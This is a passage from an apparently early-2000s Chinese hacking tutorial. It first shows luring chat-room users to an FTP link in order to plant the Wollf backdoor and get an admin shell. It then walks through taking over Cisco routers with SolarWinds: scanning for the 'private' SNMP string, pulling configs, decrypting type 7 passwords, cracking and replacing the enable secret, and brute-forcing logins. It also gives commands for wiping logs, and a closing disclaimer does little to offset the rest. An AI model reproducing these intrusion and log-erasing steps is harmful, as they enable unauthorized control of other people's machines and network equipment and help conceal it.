

然后随便找个聊天室，进去后发布 FTP://DOMAIN（其中 DOMAIN 是你在 www.oray.net 申请的域名）。等一会，就会有成批成批的“鱼”上钩了。

4、登录远程主机。等待一段时间以后，哈哈，发现有“鱼”上钩。现在开始用 Wollf 登录远程主机。Wollf 运行参数如下表：

| wollf [选项] | [选项]含义 |
|---|---|
| -install | 安装 wollf 服务，默认参数 |
| -remove | 停止并清除 wollf 服务 |
| -update | 升级 wollf 服务 |
| -debug | 调试 wollf 服务，用于安装失败后查出错误信息 |
| -once | 作为普通进程运行，重启后不自动加载 |
| -connect [host] [port] | 连接到远程 wollf 服务，主要用于连接后传输文件 |
| -listen [port] | 监听指定端口，等待远程连接，主要用于反向连接方式 |
| -setup | 对 wollf.exe 进行设置，包括监听端口、访问口令或设置为反向连接方式，完成后将生成 wollf_new.exe |

OK，我们开始进入远程主机，如图 3 所示。



> 注意：如果不了解 Wollf 的用法，可以在该界面下输入“help”查询（不带双引号）。

然后在该界面下输入 DOS 就可以进入熟悉的 DOS 命令行窗口，而且是 ADMIN 的权限；要退出 DOS 回到 Wollf 界面只需要输入 exit 命令。具体进去后能做些什么就不是本文所介绍的范围了，可以参照其他教程。可见，这种入侵的方法比起到处发木马让别人执行好多了。

> 注意：问题思考——其实这种方法算不上是一种 Hack，只能算是黑客的一种另类娱乐方式而已。

这种方式再一次提醒我们：

- 千万不要随便执行、打开来历不明的程序、文件，即使是自己找到的而不是别人发过来的文件也不能打开。
- 不要在聊天室、QQ 内随便进入发送过来的网站，更严重、更有攻击力的万花谷病毒就是利用 IE 漏洞和这种传播途径。

最后还要提醒大家，防火墙是解决所有一般问题的关键，所以建议大家上网时不仅要开病毒防火墙，更要开网络防火墙。

## 进一小步的入侵 CISCO 路由器

路由器是网络中常用的网络设备，它是将我们的服务器在茫茫海中联系起来。只有通过它，我们才能使用最合理的数据通路将数据发送到对方，也就是说路由器提供了互联网数据通路的节点。在《黑客 X 档案》2003 年第二期刘晖写的《利用 SOLARWINDS 获得路由控制权》（以下简称《利》）一文中，我们已经基本了解了怎样入侵一台 Cisco 路由器，下面我们将使用 SolarWinds 2002 这个软件对 Cisco 路由器进行更深入点的安全检测工作。

### 一、基本知识

- 路由器一般的远程控制方法有两种，一是 Telnet，另外一种是通过 SNMP 代理。大家常用的 Telnet 就不说了，第二种控制方式是通过在路由器上配置好 SNMP 代理，包括 MIB 变量访问、MIB 变量设置、SNMP 中断和 SNMP 团体字符串四项功能，再在远程使用基于 SNMP 应用协议的管理软件（如 Cisco Works 2000）进行远程管理，也可以在路由器上开放 80 端口，用浏览器进行远程管理。
- Cisco 路由器登录口令分为用户访问口令和特权级口令（enable）。缺省情况下，路由器上所有控制台口令是以明文形式存储在路由器配置中。使用 enable password 命令设置的密码是 Cisco 的 type 7 型加密算法实现的，可以反向解密；而管理员使用 enable secret 命令设置的密码，是用 MD5 散列算法进行加密，破解有较大难度。
- SNMP 团体字符串出厂缺省值一般有两种：一是 public，代表对路由器资源只读权限；二是 private，代表对路由器资源可读写权限。

### 二、检测详解

首先，我们需要一个专门的、集扫描、破解、管理等功能于一身的软件——SolarWinds 2002。下载地址和注册的方法都可以在 www.google.com 中搜索到。

安装完毕并运行后，就可以看到它的工具条了，根据不同的应用，工具条被划分为 11 个栏目。根据《利》一文的介绍，我们先用扫描器寻找存在漏洞的 Cisco 路由器。打开 SolarWinds 工具条 Discovery 栏中的 IP Network Browser 工具，在其 Settings 配置对话框中，选中“public”并删掉它，只保留“private”SNMP 团体字符串，如图 1 所示。



这样做的目的是为了保证我们对扫描出来的 Cisco 路由器具有可对配置文件读写权限。

呵呵，运气不错，一会儿后我们便有了想要的东西，如图 2 所示。





选中这个有漏洞的 Cisco 路由器，单击工具栏中的“Config”，SolarWinds 便会自动打开 TFTP 服务，并使用 SolarWinds 工具条 Cisco Tools 栏下的 Config Editor/Viewer 工具，自动下载这个路由器的配置文件到 SolarWinds 安装所在分区的 TFTP-Root 目录下，还有 SolarWinds 安装目录下以日期为名的目录中。可能是由于注册机或其他什么的原因，当 Config Editor/Viewer 试图打开这个下载的 Config 文件的时候，该工具自身会锁死。不过没关系，我们可以先将它关闭，再在 Cisco Tools 栏下打开 Config Editor/Viewer 工具，使用其工具栏上的“Diff”比较工具，打开刚才下载的 Config 配置文件，如图 3 所示。

下面是一份真实的 Config 配置文件：

```
!* ***.CiscoConfig // 以路由器名称为文件名的 .CiscoConfig 文件
!* IP Address : *.*.*.* // 路由器的 IP 地址
!* Community : private // 注意这个 SNMP 团体字符串，代表的是可读写权限
!* Downloaded 2003-2-7 1:28:31 by SolarWinds Config Transfer Engine Version 5.5.0
!
! Last configuration change at 16:10:53 UTC Tue Jan 28 2003
! NVRAM config last updated at 22:16:28 UTC Sat Nov 30 2002
!
version 12.0
no service pad
service timestamps debug uptime
service timestamps log uptime
no service password-encryption
!
hostname video_center
!
enable secret 5 $1$Hhrr$yjzWaEMTBa8EzrLT1DAcT0
// 使用 MD5 散列算法进行加密的特权口令
enable password 7 09263D0D14E1C16165465279
// 如果没有上面的 enable secret，则特权口令就是这个 type 7 型加密算法加密的口令

...... // 中间太多太杂而省略

line vty 0 4
password video // 这里是明文保存的访问口令
login
line vty 5 15
password video
login
!
end
```

像上面这个配置文件中，telnet 访问口令是用明文保存的 video，而 enable password 7 09263D0D14E1C16165465279 这种使用 type 7 型加密算法加密的密码，我们可以用 Cisco Tools 栏下的 Router Password Decryption 工具进行破解，输入 7 09263D0D14E1C16165465279 并回车，就可以看到其真正的密码 dx+kd}8mB 了。但我们这样 telnet 上去了，不过只是普通模式，没有什么权限，我们需要的是得到 Cisco 路由器的特权，当然也可以试试 Config 配置文件中出现的口令是不是特权口令。

这里就是本文的目的了，上面的配置文件中，特权口令 enable secret 5 $1$Hhrr$yjzWaEMTBa8EzrLT1DAcT0 是使用 MD5 散列算法进行加密的，这里可以使用 Cain v2.5 工具对其进行破解。

Cain v2.5 下载地址：http://www.heibai.net/download/show.php?id=3180

安装并运行后，我们可以选 Cracker 选项卡，在左边的工具栏中选中 Cisco IOS-MD5 Hashes，然后再通过菜单 File—Add to list 将首先下载的 Config 配置文件导进去，在 Hash 栏中可以看见密码串已经被加入了。右键单击这个密码串，可以在弹出的菜单中看到 Start Dictionary Attack 和 Start Brute-Force Attack 两个选项，分别是对这个密码进行字典猜测和暴力猜测，如图 4 所示。



图 4

如果你想自己手动测试密码的话，可以使用刚才右键菜单中的 Test password 选项。这样直接破解比较麻烦，成功率也不是很大，我们需要另想一个办法来突破它。你想到了吗？我们扫描的 SNMP 团体字符串是 private，具有读写能力，于是我们就有了这招偷梁换柱。

先备份好刚下载的 Config 配置文件，再使用记事本找到“enable secret 5 $1$Hhrr$yjzWaEMTBa8EzrLT1DAcT0”这个字符串（不带引号），使用一个我们已知口令的 MD5 加密值代替进去，如图 5 所示。



图 5

然后使用 Cisco Tools 栏下的 Upload Config 工具将修改好的这个 Config 配置文件上传到 Cisco 路由器上，这样我们就冲掉了原来的密码，当然也就可以用我们知道的口令进入特权模式了。在上传 config 文件时，Upload Config 工具会询问是要“覆盖当前 running 正在运行的 config 文件”，还是“覆盖闪存中的开机 config 文件”，这里我们当然要选择“覆盖当前 running 正在运行的 config 文件”选项了，如图 6 所示。



图 6

覆盖完后，我们 telnet 上去，用 en 命令进入特权模式，输入的密码当然是我们自己设的。不难看到，入侵 Cisco 路由器的朋友也就是钻了管理员的配置漏洞而已。

其实对于要指定目标进行安全检测的情况，SolarWinds 2002 也为我们想得很周到。我们可以使用其工具条中 Security 栏下的 Security Check 工具，扫描并试图破解出指定路由器具有可读写权限的 SNMP 团体字符串。使用方法很简单，只需在 Hostname/IP Address of Router 处填上路由器的名字或 IP 地址，然后再点“Attempt Break In”即可，如图 7 所示。



图 7

除此之外，我们还可以使用工具条 Security 栏中的 SNMP Brute Force Attack 工具，对指定路由器的登录及特权口令进行暴力破解。操作方法很简单，只需将路由器的名字或 IP 地址填到 Target Hostname or IP Address 中，然后直接点“Attack”就可以等好消息了，如图 8 所示。



图 8

除了暴力破解，还可以使用 SNMP Dictionary Attack 工具对指定的路由器的登录及特权口令进行字典破解。我们首先用 SNMP Dictionary Attack 工具栏上的“New”工具新建一个数据库，然后再用菜单上的“Edit”—“Add IP Addresses”加入路由器的 IP 地址，再用工具栏上的“Start”工具开始字典破解，如图 9 所示。



图 9

至于使用的字典，可以由 Security 栏下的 Edit Dictionaries 工具产生或修改。

OK，Cisco 路由器简单的安全监测工作就这样完成了。当然进去之后，建议大家先使用 #terminal history size 0 命令将系统日志停掉，干完事后再使用 #clear log 和 #clear line vty * 两个命令删掉记录，最后一定要记得将首先备份的 Config 配置文件还原上去，以免影响管理员的正常维护工作。

另外，可能有朋友遇到 SolarWinds 2002 这样的大型英文软件会有点头痛。参照其帮助文件，我将各个工具栏中小工具的用途简单地列举了出来，希望对大家有用。

## 三、SolarWinds 2002 中各个工具的简单说明

使用版本：SolarWinds 2002 CATV Engineers Edition

- IP Network Browser 用于扫描与设定的 SNMP 字符串相同的路由器。
- Ping Sweep 用于扫描一段 IP 中有哪些正在被使用，并显示出其 DNS 名字。
- Subnet List 用于扫描路由下的分支网络，并给出子网掩码。
- SNMP Sweep 用于在一段 IP 下扫描哪些提供 SNMP 服务。
- Network Sonar 用于建立和查看 TCP/IP 网络构成数据库。
- DNS Audit 用于扫描定位本地 DNS 数据库错误。
- MAC Address Discovery 用于扫描一段 IP 内在线机器的 MAC 地址。

### 2. Cisco Tools 栏

- Config Editor/Viewer 用于下载、查看、比较、备份 Cisco 路由和交换机配置。
- Upload Config 用于上传 Cisco 路由和交换机配置，可用于修改配置。
- Download Config 用于下载 Cisco 路由和交换机配置。
- Running Vs Startup Configs 用于比较正在运行的和开机的配置文件。
- Router Password Decryption 用于解密 Cisco 的 type 7 型密码。
- Proxy Ping 用于测试 Cisco 路由器是否具有代理 ping 的能力。
- Advanced CPU Load 用于建立、查看 Cisco 路由器或交换机 CPU 工作状态数据库。
- CPU Gauge 用于监控 Win2k、Cisco 路由器或交换机 CPU 工作。
- Router CPU Load 用于及时监控 Cisco 路由器的 CPU 工作。
- IP Network Browser 用于扫描与设定的 SNMP 团体字符串相同的路由器。
- Security Check 用于扫描指定路由器的 SNMP 团体字符串。

### 3. Ping Tools 栏

- Ping 用于 ping 主机。
- Trace Route 用于跟踪路由，查看经过的路由地址。
- Proxy Ping 用于测试 Cisco 路由器是否具有代理 ping 的能力。
- Ping Sweep 用于扫描一段 IP 中有哪些正在被使用，并显示出其 DNS 名字。
- Enhanced Ping 用于及时监视一定数量服务器、路由器等的响应能力。

### 4. Address Mgmt 栏

- Subnet Calculator / IP Address Management：子网计算器、IP 地址管理。
- IP Address Management 用于及时监控一段网络中 IP 的使用情况。
- DNS / Whois 用于获取一个 IP 或域名的详细 DNS 信息。
- Ping Sweep 用于扫描一段 IP 中有哪些正在被使用，并显示其 DNS 名字。
- DNS Audit 用于扫描定位本地 DNS 数据库错误。
- DHCP Scope Monitor 用于监控具有 DHCP 功能主机的子网络。

### 5. Monitoring 栏

- Bandwidth Monitor 用于及时监控多个设备的通路与带宽情况。
- Watch It! 用于 telnet、web 管理多个路由设备的工具条。
- Router CPU Load 用于及时监控 Cisco 路由器的 CPU 工作。
- Network Monitor 用于监控多个路由设备的多种工作状态参数。
- Network Performance Monitor 用于监控多个路由设备的各种详尽网络状态。
- Enhanced Ping 用于及时监视一定数量服务器、路由器等的响应能力。
- SysLog Server 用于查看、修改 514 UDP 端口接收到的系统 log。

### 6. Perf Mgmt 栏

- Network Performance Monitor 用于监控多个路由设备的各种详尽网络状态。
- NetPerfMon Database Maintenance 用于维护上面工具生成的数据库。
- SNMP Graph 用于在 MIB 中及时地收集设定 OID 的详细数据。
- Bandwidth Gauges 用仪表的形式监视远程设备的通路与带宽情况。
- Bandwidth Monitor 用趋势图的形式及时监控多个设备的通路与带宽情况。
- Advanced CPU Load 用于建立、查看 Cisco 路由器或交换机 CPU 工作状态数据库。
- CPU Gauge 用于监控 Win2k、Cisco 路由器或交换机 CPU 工作。
- Router CPU Load 用于及时监控 Cisco 路由器的 CPU 工作。

### 7. MIB Browser 栏

- MIB Browser 用于查看、编辑各种 MIB 数据资源。
- Update System MIB 用于改变各种 SNMP 设备的系统信息。
- SNMP Graph 用于在 MIB 中及时地收集设定 OID 的详细数据。
- MIB Walk 用于收集指定 OID 的详细信息。
- MIB Viewer 用于查看各种 MIB 数据资源。

### 8. Security 栏

- Security Check 用于扫描指定路由器的 SNMP 团体字符串。
- Router Password Decrypt 用于解密 Cisco 的 type 7 型密码。
- Remote TCP Session Reset 用于显示设备上的已激活连接。
- SNMP Brute Force Attack 用于暴力猜解路由器的登录口令。
- SNMP Dictionary Attack 用于字典猜解路由器的登录口令。
- Edit Dictionaries 用于编辑字典。

### 9. CATV Tools 栏

- CATV Subscriber Modem Details 用于查询 CATV Modem 的当前工作状态。
- CMTS Modem Summary 用于监听和查看 CATV Modem 的各种工作状态。
- Network Performance Monitor 用于监控多个路由设备的各种详尽网络状态。
- NetPerfMon Database Maintenance 用于维护上面工具生成的数据库。

### 10. Miscellaneous 栏

- TFTP Server 用于建立 TFTP 服务器以接收、发送数据。
- WAN Killer 用于发送特定信息包。
- Send Page 用于发送 E-Mail 或 Page。
- Wake-On-LAN 用于远程激活网络功能。

### 11. Help & Web 栏

这还要说？就是一些帮助呀~~~呵呵

最后，需要申明的是笔者写本文的目的不是教大家怎样入侵，而是更多地了解路由器。由于本文造成的任何损失，笔者概不负责，希望大家自重，在合法的情况下做事！如果你还有其他什么问题，请到 www.hackerxfiles.net 来问吧。

## 一个人的战争

网络新手也能入侵路由器，这可能吗？也许大家谁也不会相信一个对网络技术只略微了解的菜鸟，也能对路由器构成威胁。今天我写这篇文章就是要告诉大家，一个网络新手是怎样入侵路由器的，以此来丰富一些网络新手的网络安全技术。

